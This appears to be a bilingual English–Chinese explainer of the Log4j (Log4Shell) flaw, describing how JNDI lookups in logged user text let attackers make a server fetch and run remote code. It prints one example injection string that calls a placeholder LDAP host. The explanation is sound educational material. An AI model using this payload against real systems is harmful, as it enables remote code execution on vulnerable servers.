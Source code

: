 这些替换可以和另一个被称为JNDI的库结合起来使用，JNDI是另外一个库。

JNDI allows you to look up values in a variety of ways, some of them allowing you to make requests over the network or internet to get a value. That could look something like this:

JNDI允许以多种方式查找值，其中一些方式是允许你通过网络来发送请求获取值，看起来像下面这样。

```java
“${jndi:ldap://www.mywebsite.com/somepath}”
```

This would make a call out to “ldap://www.mywebsite.com/somepath” and could even try to run code that came back from it.

它将对ldap://www.mywebsite.com/somepath进行访问，甚至运行从这个地址返回的代码。

 This could be useful functionality, but these substitutions should always occur only on text provided by the application, never by the user. 

  这可能是个有用的功能，但是这些替代应当只在应用程序提供的文本上发生，而不是由用户提供的文本上。

 Log4j had, for a long time, allowed these substitutions to occur in any user-provided text that might make it into the logs.

在很长一段时间里，Log4j允许这些替换在可能出现在日志中的任何用户提供的文本中发生。

So all a user had to do was to perform an action against a website that might cause a value to be written into the logs, and they could get this functionality to run.

所以用户只需对可能导致某个值被写入日志的网站执行一个操作，就可以使这个功能运行起来。

Because this was such a minor feature in a large library (log4j has over 175,000 lines of code spread across over 2000 files), this went unnoticed for a really long time. (Why a library that writes logs to files is over 175,000 lines of code is unfortunately a discussion for another time.)

因为这只是一个大型库的一个小功能(log4j有超过17.5w行代码，分布在2000个文件中)，所以很长时间没有被注意到了(为什么一个将日志写入文件的库有17.5w行的代码，不幸的是这是另外一个话题了)

## Now you know the software industry’s dirty little secret 现在你已经直到了软件行业的秘辛了

Software is unbelievably complex and is built upon millions of lines of code, and no one has the ability to audit all of that code. 

软件难以相信的复杂建立在数百万行代码上，没有人有能力能够审计所有的代码。

Software engineers rely on popular libraries like log4j, because it would take them inordinate amounts of time to replicate that kind of functionality on their own.

软件工程师依赖于一些流行的库，像log4j，如果他们想要自己开发就需要花费大量的时间。

Software engineers also like to use libraries like log4j because they are used by millions of other developers, and so having that much usage and that many eyes on a piece of software can help find and flush out many of the security issues.

软件工程师也喜欢log4j这样的库，因为被数百万开发者使用，有这么多的使用量和这么多眼睛盯着一个软件，可以帮忙发现很多安全问题。

However, every once in a while something like this happens. You have a very widely used library, combined with a rarely used feature that has a subtle flaw in it, and that flaw can go unnoticed for years. 

